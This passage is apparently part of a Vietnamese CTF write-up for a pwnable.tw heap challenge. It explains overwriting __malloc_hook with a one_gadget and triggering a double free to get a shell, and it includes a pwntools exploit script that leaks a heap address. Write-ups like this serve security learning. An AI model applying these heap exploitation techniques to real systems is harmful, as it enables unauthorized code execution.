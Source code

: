 ![image](https://github.com/gookoosss/CTF/assets/128712571/9e3ca9ec-dd87-43b5-8ae0-762fecd42251)


- bây giờ đơn giản là ta ow malloc_hook thành one_gadget rồi lấy shell thôi
- nhưng mà vấn đề lúc này ta malloc lại ko lấy shell được, còn 1 cách để call malloc_hook là lỗi Aborted, vậy ta sẽ lấy shell bằng cách double free(chunk 2 và chunk 3 trùng addr) 

```c 
add(0x100,b'aaaa', payload) # 12
add(0x60,b'aaaa', b'a') # 13
one_gadget = [0x45216, 0x4526a, 0xef6c4, 0xf0567]
add(0x60,b'EEEE',b'A'*19+p64(libc.address + one_gadget[2])) # 14
delete(2)
delete(3)
``` 
- cuối cùng ta cũng có flag, quá mệt mỏi cho 1 chall :(( 

![image](https://github.com/gookoosss/CTF/assets/128712571/9e9e18a5-3423-4d9d-80c7-7b7482cf812d)


## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./secret_of_my_heart_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
p = process([exe.path])
# p = remote('chall.pwnable.tw',10302)
def GDB():
    gdb.attach(p, gdbscript = '''
    b*0x0000000000000D6F+0x555555400000
    b*0x000000000000012C+0x555555400000
    b*0x00000000000012CE+0x555555400000
    b*0x0000000000000E20+0x555555400000
    c
    ''')
    input()

def add(size, name, data):
    p.sendlineafter(b'choice :', b'1')
    p.sendlineafter(b'heart : ', str(size))
    p.sendafter(b'heart :', name)
    p.sendafter(b'heart :', data)

def show(idx):
    p.sendlineafter(b'choice :', b'2')
    p.sendlineafter(b'Index :', str(idx))

def delete(idx):
    p.sendlineafter(b'choice :', b'3')
    p.sendlineafter(b'Index :', str(idx))


add(0x50,b'A'*0x20,b'a') # 0
show(0)
p.recvuntil(b'A'*0x20)
heap = u64(p.recv(6) + b'\0\0')
info('heap leak: ' + hex(heap))
delete(0) 
```